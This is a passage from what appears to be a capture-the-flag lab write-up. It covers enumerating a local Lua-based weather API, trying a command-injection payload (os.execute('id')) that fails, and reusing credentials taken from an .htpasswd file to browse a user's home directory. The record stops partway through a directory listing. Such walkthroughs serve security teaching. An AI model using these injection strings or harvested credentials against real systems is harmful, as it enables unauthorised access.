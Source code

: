     
    
    $ ps auxww | grep michaels
    r.michaels  185  0.0  0.0  35028  1980 ?     Is    3:33PM 0:00.00 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3001 -L weather /home/r.michaels/devel/webapi/weather.lua -P /var/run/httpd_devel.pid -U r.michaels -b /home/r.michaels/devel/www 
    

It looks very similar to the `httpd` process above, but this one is running a
different `weather.lua` script, listening on TCP 3001 (instead of 3000), and
serving out of `/home/r.michaels/devel/www`.

### Exploit Dev Weather API [Fail]

Is this vulnerable to the same exploit? I can access it from this shell:

    
    
    $ curl -s http://127.0.0.1:3001/weather/forecast?city=list
    {"code": 200,"cities": ["London","Manchester","Birmingham","Leeds","Glasgow","Southampton","Liverpool","Newcastle","Nottingham","Sheffield","Bristol","Belfast","Leicester"]}
    

It looks like this version is not vulnerable to the command injection as
before:

    
    
    $ curl -s -G http://127.0.0.1:3001/weather/forecast --data-urlencode "city=') os.execute('id') --"
    {"code": 500,"error": "unknown city: ') os.execute('id') --"}
    

I looked through the Lua script for places where there might have been a more
difficult to guess vulnerability, but didn’t see anything (at least not with
my limited Lua experience).

### HomeDir Read

I remember thinking it was a bit weird to see `-u` in the `httpd` command
line. This makes the public folders in a users homedirectory web accessible. I
didn’t have a username when I started poking at this service, but I do now.

Trying to access `/~r.michaels/` returns 401:

    
    
    $ curl -s http://127.0.0.1:3001/~r.michaels/
    <html><head><title>401 Unauthorized</title></head>
    <body><h1>401 Unauthorized</h1>
    ~r.michaels//: <pre>No authorization</pre>
    <hr><address><a href="//127.0.0.1:3001/">127.0.0.1:3001</a></address>
    </body></html>
    

I can add in the creds from the `.htpasswd` file and they work:

    
    
    $ curl -s http://127.0.0.1:3001/~r.michaels/ -u webapi_user:iamthebest
    <!DOCTYPE html>
    <html><head><meta charset="utf-8"/>
    <style type="text/css">
    table {
            border-top: 1px solid black;
            border-bottom: 1px solid black;
    }
    th { background: aquamarine; }
    tr:nth-child(even) { background: lavender; }
    </style>
    <title>Index of ~r.michaels/</title></head>
    <body><h1>Index of ~r.michaels/</h1>
    <table cols=3>
    <thead>
    <tr><th>Name<th>Last modified<th align=right>Size